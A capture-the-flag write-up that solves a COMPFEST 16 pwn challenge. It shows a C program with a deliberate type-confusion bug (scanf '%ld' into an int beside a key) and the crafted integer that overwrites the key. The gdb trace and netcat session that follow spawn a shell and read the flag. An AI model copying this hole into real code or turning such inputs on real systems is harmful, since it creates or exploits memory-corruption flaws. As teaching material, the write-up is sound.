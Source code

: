 # Baby COMPFEST Hope Survey Writeup by Deffreus - CompfestCTF 16

######  Author: NeoZap

## Description

Welcome to Hacker Class CTF COMPFEST 16!
Please fill our form with your hopes of the event.
We will try our best to make it happen!
. . . Wait what did you say?
The form is broken?
Oh welp, it was already broken in the first place 🤪🤪🤪

`nc challenges.ctf.compfest.id 20005`

[chall](https://ctf.compfest.id/files/8b021f2c140e7522c087b0eb21118f51/chall?token=eyJ1c2VyX2lkIjo3MiwidGVhbV9pZCI6MzA3LCJmaWxlX2lkIjo2MX0.ZrHh-w.o5pE3M6PnOou_OCarOEc8o5Dltg) [chall.c](https://ctf.compfest.id/files/044838342630825384efb9b42f5fff8e/chall.c?token=eyJ1c2VyX2lkIjo3MiwidGVhbV9pZCI6MzA3LCJmaWxlX2lkIjo2Mn0.ZrHh-w.iy-niymCzqLKSIJ1KEu3qyVK4PI)

## Files

```
$ file chall
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=761bc45382457dd85b234cc9c8fc895e693a5b4d, for GNU/Linux 3.2.0, not stripped
```

`chall.c`:

```chall.c
#include <stdio.h>
#include <stdlib.h>

#define BUF_SIZE 0x100

__attribute__((constructor)) _()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    puts("Selamat datang para peserta CTF COMPFEST 16!");
    puts("Sebelum tahap penyisihan, kami ingin mengetahui harapan Anda sebagai peserta kami.");
    puts("Silakan isi form berikut dengan harapan Anda. Terima kasih!");
}

void read_val(const char *msg, void *ptr)
{
    printf("%s", msg);
    scanf("%ld", ptr);
}

int main()
{
    puts("\n===== Form Harapan Peserta CTF COMPFEST 16 =====");

    int key = 0;
    int length;
    read_val("Panjang harapan (biar efisien harap maklum): ", &length);
    if (length < 0 || length >= BUF_SIZE)
    {
        printf("Hayo jangan nackal ya dek...\n");
        return -1;
    }

    if (key == 0xDEADBEEF)
    {
        puts("\nEmang boleh se-hengker ini...");
        system("/bin/sh");
        return 69;
    }

    puts("Mohon maaf saat ini form sedang dalam perbaikan. Silakan coba chall sebelah dulu hehe.");
}
```

## Solution

The main vulnerability here is `read_val`, specifically, the `scanf`.
It read a signed long integer (8 bytes) and write it to `lenght`, an signed integer (4 bytes).
As key and length are declared next to each other,
When the extra 4 bytes overflow from `length`,
they'll go to `key`!

We want to pass `if (key == 0xDEADBEEF)` so that we can get a shell thanks to `system("/bin/sh")`.
Presumably, the flag is on the server.
To do this, we need to use an input that'll overflow `key` with `0xDEADBEEF`.

The input I got it working is: `-2401053092612145152`, or `0xDEADBEEF00000000`.
The main play here is two's complement: `0xDEADBEEF` has `1` as it's most significant bit (`0xd` -> `0b1101`),
so technically `0xDEADBEEF` is a negative number.
The last 4 bytes, `0x00000000` is used to pass `if (length < 0 || length >= BUF_SIZE)`,
so we can reach the second if statement leading to the shell.

The assembly of `main` looks like this:

```asm
   0x000000000040121f <+0>:     push   rbp
   0x0000000000401220 <+1>:     mov    rbp,rsp
   0x0000000000401223 <+4>:     sub    rsp,0x10
   0x0000000000401227 <+8>:     lea    rax,[rip+0xeaa]        # 0x4020d8
   0x000000000040122e <+15>:    mov    rdi,rax
   0x0000000000401231 <+18>:    call   0x401030 <puts@plt>
   0x0000000000401236 <+23>:    mov    DWORD PTR [rbp-0x4],0x0
   0x000000000040123d <+30>:    lea    rax,[rbp-0x8]
   0x0000000000401241 <+34>:    mov    rsi,rax
   0x0000000000401244 <+37>:    lea    rax,[rip+0xec5]        # 0x402110
   0x000000000040124b <+44>:    mov    rdi,rax
   0x000000000040124e <+47>:    call   0x4011d6 <read_val>
   0x0000000000401253 <+52>:    mov    eax,DWORD PTR [rbp-0x8]
   0x0000000000401256 <+55>:    test   eax,eax
   0x0000000000401258 <+57>:    js     0x401264 <main+69>
   0x000000000040125a <+59>:    mov    eax,DWORD PTR [rbp-0x8]
   0x000000000040125d <+62>:    cmp    eax,0xff
   0x0000000000401262 <+67>:    jle    0x40127a <main+91>
   0x0000000000401264 <+69>:    lea    rax,[rip+0xed3]        # 0x40213e
   0x000000000040126b <+76>:    mov    rdi,rax
   0x000000000040126e <+79>:    call   0x401030 <puts@plt>
   0x0000000000401273 <+84>:    mov    eax,0xffffffff
   0x0000000000401278 <+89>:    jmp    0x4012bc <main+157>
   0x000000000040127a <+91>:    cmp    DWORD PTR [rbp-0x4],0xdeadbeef
   0x0000000000401281 <+98>:    jne    0x4012a8 <main+137>
   0x0000000000401283 <+100>:   lea    rax,[rip+0xed6]        # 0x402160
   0x000000000040128a <+107>:   mov    rdi,rax
   0x000000000040128d <+110>:   call   0x401030 <puts@plt>
   0x0000000000401292 <+115>:   lea    rax,[rip+0xee6]        # 0x40217f
   0x0000000000401299 <+122>:   mov    rdi,rax
   0x000000000040129c <+125>:   call   0x401040 <system@plt>
   0x00000000004012a1 <+130>:   mov    eax,0x45
   0x00000000004012a6 <+135>:   jmp    0x4012bc <main+157>
   0x00000000004012a8 <+137>:   lea    rax,[rip+0xed9]        # 0x402188
   0x00000000004012af <+144>:   mov    rdi,rax
   0x00000000004012b2 <+147>:   call   0x401030 <puts@plt>
   0x00000000004012b7 <+152>:   mov    eax,0x0
   0x00000000004012bc <+157>:   leave  
   0x00000000004012bd <+158>:   ret
```

The compare instruction for `key` is at `0x000000000040127a`, so I put a break point there (`b *main+91`).
`gdb` will halt the program when we get there and that'll let us inspect the stack at that time.
With `-2401053092612145152` as input number, here's how it was in `gdb` on that breakpoint:

```
─────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0               
$rbx   : 0x0               
$rcx   : 0x10              
$rdx   : 0x0               
$rsp   : 0x00007ffdd7da5b70  →  0x0000000000000000
$rbp   : 0x00007ffdd7da5b80  →  0x0000000000000001
$rsi   : 0x2152411100000000
$rdi   : 0x00007ffdd7da5610  →  "-2401053092612145152"
$rip   : 0x000000000040127a  →  <main+005b> cmp DWORD PTR [rbp-0x4], 0xdeadbeef
$r8    : 0x1999999999999999
$r9    : 0x0               
$r10   : 0x00007fc4ef13eac0  →  0x0000000100000000
$r11   : 0x00007fc4ef13f3c0  →  0x0002000200020002
$r12   : 0x00007ffdd7da5c98  →  0x00007ffdd7da6759  →  "/home/d3ffr3u5-picoctf/chall"
$r13   : 0x000000000040121f  →  <main+0000> push rbp
$r14   : 0x0000000000403e00  →  0x0000000000401130  →  <__do_global_dtors_aux+0000> endbr64 
$r15   : 0x00007fc4ef1f8040  →  0x00007fc4ef1f92e0  →  0x0000000000000000
$eflags: [zero CARRY parity ADJUST SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
─────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007ffdd7da5b70│+0x0000: 0x0000000000000000   ← $rsp
0x00007ffdd7da5b78│+0x0008: 0xdeadbeef00000000
0x00007ffdd7da5b80│+0x0010: 0x0000000000000001   ← $rbp
0x00007ffdd7da5b88│+0x0018: 0x00007fc4eefa9d90  →  <__libc_start_call_main+0080> mov edi, eax
0x00007ffdd7da5b90│+0x0020: 0x0000000000000000
0x00007ffdd7da5b98│+0x0028: 0x000000000040121f  →  <main+0000> push rbp
0x00007ffdd7da5ba0│+0x0030: 0x0000000100000000
0x00007ffdd7da5ba8│+0x0038: 0x00007ffdd7da5c98  →  0x00007ffdd7da6759  →  "/home/d3ffr3u5-picoctf/chall"
───────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x40126e <main+004f>      call   0x401030 <puts@plt>
     0x401273 <main+0054>      mov    eax, 0xffffffff
     0x401278 <main+0059>      jmp    0x4012bc <main+157>
 →   0x40127a <main+005b>      cmp    DWORD PTR [rbp-0x4], 0xdeadbeef
     0x401281 <main+0062>      jne    0x4012a8 <main+137>
     0x401283 <main+0064>      lea    rax, [rip+0xed6]        # 0x402160
     0x40128a <main+006b>      mov    rdi, rax
     0x40128d <main+006e>      call   0x401030 <puts@plt>
     0x401292 <main+0073>      lea    rax, [rip+0xee6]        # 0x40217f
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
(gdb) c
Continuing.
Emang boleh se-hengker ini...
[Detaching after vfork from child process 301]
```

We can see that at `0x00007ffdd7da5b78` or `stack+0x008`,
we have the value `0xDEADBEEF00000000`.
If we continue from here, we should pass the `key` check!
That output mean that we're correct!
Now let's just do it on the real instance:

```
$ nc challenges.ctf.compfest.id 20005                     
Selamat datang para peserta CTF COMPFEST 16!
Sebelum tahap penyisihan, kami ingin mengetahui harapan Anda sebagai peserta kami.
Silakan isi form berikut dengan harapan Anda. Terima kasih!

===== Form Harapan Peserta CTF COMPFEST 16 =====
Panjang harapan (biar efisien harap maklum): -2401053092612145152

Emang boleh se-hengker ini...
ls
Makefile
bin
chall
chall.c
chall_patched
dev
flag.txt
lib
lib32
lib64
libx32
usr
cat flag.txt
COMPFEST16{now_you_know_type_confusion_and_how_dangerous_it_is_61674dad07}
```

We got a shell, then print the content of `flag.txt`!
Yay!

Flag: `COMPFEST16{now_you_know_type_confusion_and_how_dangerous_it_is_61674dad07}`
